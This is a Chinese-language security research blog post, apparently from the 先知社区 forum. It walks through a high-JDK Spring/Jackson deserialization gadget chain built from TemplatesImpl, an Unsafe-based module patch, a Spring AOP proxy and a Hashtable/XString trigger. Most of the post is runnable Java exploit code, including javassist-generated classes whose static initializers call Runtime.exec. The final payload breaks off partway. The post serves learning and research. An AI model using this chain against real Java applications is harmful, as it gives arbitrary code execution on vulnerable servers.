# 高版本jdk下的spring通杀链学习-先知社区

> **来源**: https://xz.aliyun.com/news/19358  
> **文章ID**: 19358

---

最近也是学习java高版本的反序列化链，分析一下高版本jdk下的spring通杀链

TemplatesImpl链 调用栈如下：

```
TemplatesImpl#getOutputProperties
            TemplatesImpl#newTransformer
            TemplatesImpl#getTransletInstance
            TemplatesImpl#defineTransletClasses
            TemplatesImpl#defineClass
```

这里要注意3个参数的赋值

\_bytecodes\_name\_tfactory

这里\_name不能为null，如果\_class为null就会走到defineTransletClasses



这里首先调用的for循环来遍历\_bytecodes变量并将其赋值给\_class数组，接着判断父类是否是com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet，如果是赋值数组下标\_transletIndex0，否则就抛出异常，也就是说 TemplatesImpl的利用链所使用的恶意类是AbstractTranslet的子类



恶意类

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class shell extends AbstractTranslet {
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
    public shell() throws IOException {
        try {
            Runtime.getRuntime().exec("calc");
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

payload：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class demo1 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();

        // 读取恶意 class 文件
        byte[] code = Files.readAllBytes(Paths.get("D:\java\fastjson\src\main\java\remo\shell.class"));
        byte[][] codes = {code};

        // 设置必要字段
        setFieldValue(templates, "_bytecodes", codes);
        setFieldValue(templates, "_name", "1"); // 必须设置 _name
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        // 触发 static{} 执行
        templates.newTransformer();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value)
            throws NoSuchFieldException, IllegalAccessException {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```



当然这是低版本的jdk

高版本jdk就存在反射限制了

存在这样一个错误



这是因为 从 **Java 9 开始**，JDK 引入了 **模块化系统（JPMS）**。像 com.sun.\* 这类属于 **JDK 内部实现类**，被放在 java.xml 模块中，并且 **默认不对外暴露**

跟进一下setAccessible方法



只有满足这些条件才可以继续使用反射调用

调用方与目标类在同一模块  
目标模块是否对调用方导出或开放包  
目标类与成员的修饰符（public/protected/static）及继承关系等条件

那如果我们可以修改当前的module属性，使其同java.\*下类的module属性一致来不就可以绕过了吗？

Unsafe是位于sun.misc包下的一个类，它不在com.sun.\*包下面，我们可以对它进行反射调用

接下来看看它有什么特别的



* getUnsafe() 仅允许 **Bootstrap ClassLoader** 加载的类调用（如 JDK 内部类）。
* 应用代码必须通过 **反射** 获取 theUnsafe 字段

```
public final Object getAndSetObject(Object o, long offset, Object newValue) {
    return theInternalUnsafe.getAndSetReference(o, offset, newValue);
}
```

getAndSetObject，该方法是一个用于原子操作的方法，它主要用于在多线程环境下对对象的字段进行安全的更新操作，可以利用其修改调用类的module

因此可以构造出payload

```
import javassist.*;
import sun.misc.Unsafe;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Main {
    public static void main(String[] args) throws Exception {
        patchModule(Main.class);
        byte[] code = Files.readAllBytes(Paths.get("D:\java\fastjson\src\main\java\remo\shell.class"));
        byte[][] codes = {code};
        Class clazz = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");

        Object impl = getObject(clazz);

        setFieldValue(impl,"_name","fupanc");
        setFieldValue(impl, "_tfactory", getObject(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl")));
        setFieldValue(impl,"_bytecodes",codes);

        Method method = clazz.getDeclaredMethod("newTransformer");
        method.setAccessible(true);
        method.invoke(impl);

    }
    private static void patchModule(Class clazz) throws Exception {
        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);

        long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));

        Module targetModule = Object.class.getModule();
        unsafe.getAndSetObject(clazz, offset,targetModule);
    }
    private static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    private static Object getObject(Class clazz) throws Exception{
        Constructor constructor = clazz.getConstructor();
        constructor.setAccessible(true);
        Object impl = constructor.newInstance();
        return impl;
    }
}
```

但是会报一个错误

```
Caused by: java.lang.IllegalAccessError: superclass access check failed: class shell (in unnamed module @0x11028347) cannot access class com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.runtime to unnamed module @0x11028347
```

问题导致原因是这个shellClass是继承的AbstractTranslet，这里还是直接调用了JDK内部API，导致触发模块化检测异常，那如果**不继承****AbstractTranslet**是不是就解决这个问题了呢？

调试一下

可以看到declaringModule 是通过 declaringClass.getModule() 获得的，为 module java.base

由于我们通过unsafe类修改了它的Module值，这里为true，就可以进行反射了



这段代码就是绕过的关键

当类不继承AbstractTranslet 时，会向\_auxClasses 中 put 数据，因此还需要保证\_auxClasses不为空。还需要实例化 \_auxClasses



当 classCount 大于 1 时，即 \_bytecodes传入多个类时会将 \_auxClasses赋值为 HashMap，也就是说 我们只需要给\_bytecodes赋两个byte数组即可，并且控制\_transletIndex为合适的下标以匹配defineClass加载后放入到\_class数组中的我们自定义的恶意的Class对象



然后下面的那个\_transletInd<0抛出异常可以通过反射来修改，\_transletIndex没有被标记为 transient 是能参与序列化过程的



给一个思维导图



绕过方法如下：

```
Reflections.setFieldValue(templates, "_bytecodes", new byte[][]{
        classBytes, ClassFiles.classAsBytes(shell.class)
});

Reflections.setFieldValue(templates, "_name", "anyStr");
Reflections.setFieldValue(templates, "_transletIndex", 0);
```

至此我们的恶意类就不需要再继承AbstractTranslet 了

payload

```
package org.example;

import javassist.*;
import sun.misc.Unsafe;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class Main {
    public static void main(String[] args) throws Exception {
        patchModule(Main.class);

        //part1
        ClassPool classPool = ClassPool.getDefault();
        CtClass cc = classPool.makeClass("shell");
        String cmd = "java.lang.Runtime.getRuntime().exec("calc");";
        cc.makeClassInitializer().insertBefore(cmd);

        byte[] classBytes = cc.toBytecode();
        //part2
        CtClass cc1 = classPool.makeClass("shell111");
        cc1.makeClassInitializer().insertBefore(cmd);

        byte[] classBytes1 = cc1.toBytecode();

        byte[][] code = new byte[][]{classBytes,classBytes1};

        //main
        Class clazz = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Object impl = getObject(clazz);

        setFieldValue(impl,"_name","1");
        setFieldValue(impl, "_tfactory", getObject(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl")));
        setFieldValue(impl,"_bytecodes",code);
        setFieldValue(impl,"_transletIndex",0);//0或者1都可以

        Method method = clazz.getDeclaredMethod("newTransformer");
        method.setAccessible(true);
        method.invoke(impl);
    }
    private static void patchModule(Class clazz) throws Exception {
        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);

        long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));

        Module targetModule = Object.class.getModule();
        unsafe.getAndSetObject(clazz, offset,targetModule);
    }

    private static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    private static Object getObject(Class clazz) throws Exception {
        Constructor constructor = clazz.getConstructor();
        constructor.setAccessible(true);
        Object impl = constructor.newInstance();
        return impl;
    }
}
```



再想一下什么类可以调用 getOutputProperties()方法

看下 java.xml模块export了哪些包可以访问

```
exports com.sun.org.apache.xpath.internal to [java.xml.crypto];
    exports com.sun.org.apache.xpath.internal.compiler to [java.xml.crypto];
    exports javax.xml.stream.util;
    exports com.sun.org.apache.xml.internal.utils to [java.xml.crypto];
    exports org.w3c.dom.ls;
    exports org.w3c.dom.ranges;
    exports org.w3c.dom.events;
    exports com.sun.org.apache.xpath.internal.functions to [java.xml.crypto];
    exports javax.xml.xpath;
    exports javax.xml.transform;
    exports org.xml.sax;
    exports javax.xml.stream;
    exports javax.xml.stream.events;
    exports org.w3c.dom.traversal;
    exports com.sun.org.apache.xpath.internal.objects to [java.xml.crypto];
    exports javax.xml.catalog;
    exports com.sun.org.apache.xpath.internal.res to [java.xml.crypto];
    exports com.sun.org.apache.xml.internal.dtm to [java.xml.crypto];
    exports javax.xml.datatype;
    exports javax.xml.transform.sax;
    exports javax.xml;
    exports org.xml.sax.ext;
    exports javax.xml.parsers;
    exports javax.xml.validation;
    exports javax.xml.transform.dom;
    exports javax.xml.transform.stream;
    exports org.w3c.dom;
    exports org.w3c.dom.bootstrap;
    exports org.w3c.dom.views;
    exports org.xml.sax.helpers;
    exports javax.xml.transform.stax;
```

可以看到一个完全导出的包：javax.xml.transform。这个包下有一个非常重要的并且我们经常使用的类：Templates接口类， 这个类存在getOutputProperties()方法



我们可以利用aop去代理javax.xml.transform.Templates, 这样在出发getoutputProperties时，moudle就是变为了javax.xml.transform 在一个包下，绕过了moudle限制



这里用的是HasdhMap+XString

思维导图:

```
+--------------------------------------------------+
|                Main.main()                       |
+----------------------+---------------------------+
                       |
      +----------------v------------------+
      | 1. 用 Javassist 生成恶意类         |
      |   - Evil.class: static{ exec("calc") } |
      |                                   |
      +----------------+------------------+
                       |
      +----------------v------------------+
      | 2. 构造 TemplatesImpl 实例        |
      |   - _bytecodes = [Evil, Evil1]    |
      |   - _transletIndex = 0            |
      +----------------+------------------+
                       |
      +----------------v------------------+
      | 3. 创建 Spring AOP 代理           |
      |   Proxy implements Templates       ← 公开接口！
      |     └─ handler → TemplatesImpl    ← 内部实现
      +----------------+------------------+
                       |
      +----------------v------------------+
      | 4. 包装进 Jackson POJONode        |
      |   POJONode(proxy)                 |
      +----------------+------------------+
                       |
      +----------------v------------------+
      | 5. 构造触发结构：Hashtable + XString |
      |   HashMap0: {"yy": node, "zZ": xstr}|
      |   HashMap1: {"yy": xstr, "zZ": node}|
      |   Hashtable.put(HashMap0, "1")     |
      |   Hashtable.put(HashMap1, "2")     ← 触发 equals()
      +----------------+------------------+
                       |
                       v
        +------------------------------+
        | HashMap.equals() 比较 value  |
        +--------------+---------------+
                       |
        +--------------v---------------+
        | XString.equals(node)         |
        |   → obj.toString()           ← 关键触发点！
        +--------------+---------------+
                       |
        +--------------v---------------+
        | POJONode.toString()          |
        |   → Jackson 序列化 proxy     |
        +--------------+---------------+
                       |
        +--------------v---------------+
        | 调用 proxy.getOutputProperties() |
        |   → JDK 动态代理拦截         |
        +--------------+---------------+
                       |
        +--------------v---------------+
        | JdkDynamicAopProxy.invoke()  |
        |   → method.invoke(TemplatesImpl, ...) |
        +--------------+---------------+
                       |
        +--------------v---------------+
        | TemplatesImpl.getOutputProperties() |
        |   → newTransformer()         |
        +--------------+---------------+
                       |
        +--------------v---------------+
        | 加载 _bytecodes[0] (Evil.class) |
        |   → defineClass + newInstance |
        +--------------+---------------+
                       |
        +--------------v---------------+
        | Evil.<clinit> 执行           |
        |   Runtime.getRuntime().exec("calc") |
        +--------------+---------------+
```

调试分析：

未经过代理时都在sun包下，不能反射调用



经过JdkDynamicAopProxy类的invoke()方法从而成功调用到要invokeJoinpointUsingReflection()方法



payload：

```
package org.example;

import javassist.*;
import org.springframework.aop.framework.AdvisedSupport;
import sun.misc.Unsafe;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;
import com.fasterxml.jackson.databind.node.POJONode;
import javax.xml.transform.Templates;
import com.fasterxml.jackson.databind.node.BaseJsonNode;
public class Main {
    public static void main(String[] args) throws Exception {
        patchModule(Main.class);
        //生成恶意类字节码
        ClassPool classPool = ClassPool.getDefault();
        CtClass cc = classPool.makeClass("Evil");
        String cmd = "java.lang.Runtime.getRuntime().exec("calc");";
        cc.makeClassInitializer().insertBefore(cmd);
